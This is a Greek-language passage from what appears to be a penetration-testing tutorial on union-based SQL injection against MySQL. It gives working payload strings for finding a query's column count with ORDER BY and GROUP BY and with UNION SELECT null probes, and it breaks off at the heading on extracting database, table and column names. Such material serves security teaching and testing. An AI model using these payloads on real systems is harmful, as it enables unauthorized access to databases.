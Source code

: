 {% hint style="info" %}
Στη συνέχεια, θα συζητήσουμε διάφορες μεθόδους για την εκμετάλλευση διαφορετικών ειδών SQL Injection. Θα χρησιμοποιήσουμε το MySQL ως παράδειγμα.
{% endhint %}

### Αναγνώριση με το PortSwigger

{% embed url="https://portswigger.net/web-security/sql-injection/cheat-sheet" %}

## Εκμετάλλευση με βάση την Ένωση

### Εντοπισμός αριθμού στηλών

Εάν μπορείτε να δείτε την έξοδο του ερωτήματος, αυτός είναι ο καλύτερος τρόπος για να το εκμεταλλευτείτε.\
Καταρχήν, πρέπει να βρούμε τον **αριθμό** των **στηλών** που επιστρέφει το **αρχικό αίτημα**. Αυτό συμβαίνει επειδή **και οι δύο ερωτήσεις πρέπει να επιστρέφουν τον ίδιο αριθμό στηλών**.\
Για αυτόν τον σκοπό χρησιμοποιούνται συνήθως δύο μέθοδοι:

#### Order/Group by

Για να προσδιορίσετε τον αριθμό των στηλών σε ένα ερώτημα, ρυθμίστε αυξητικά τον αριθμό που χρησιμοποιείται στις υποδηλώσεις **ORDER BY** ή **GROUP BY** μέχρι να λάβετε μια ψευδή απόκριση. Παρά τις διακριτές λειτουργίες των **GROUP BY** και **ORDER BY** στην SQL, και οι δύο μπορούν να χρησιμοποιηθούν με τον ίδιο τρόπο για τον προσδιορισμό του αριθμού των στηλών του ερωτήματος.
```sql
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
#-1' UNION SELECT 1,2,3--+    True
```

```sql
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
#-1' UNION SELECT 1,2,3--+    True
```
#### UNION SELECT

Επιλέξτε όλο και περισσότερες τιμές null μέχρι η ερώτηση να είναι σωστή:
```sql
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```
_Θα πρέπει να χρησιμοποιήσετε τιμές `null` καθώς σε ορισμένες περιπτώσεις ο τύπος των στηλών και των δύο πλευρών του ερωτήματος πρέπει να είναι ο ίδιος και το `null` είναι έγκυρο σε κάθε περίπτωση._

### Εξαγωγή ονομάτων βάσεων δεδομένων, ονομάτων πινάκων και ονομάτων στηλών
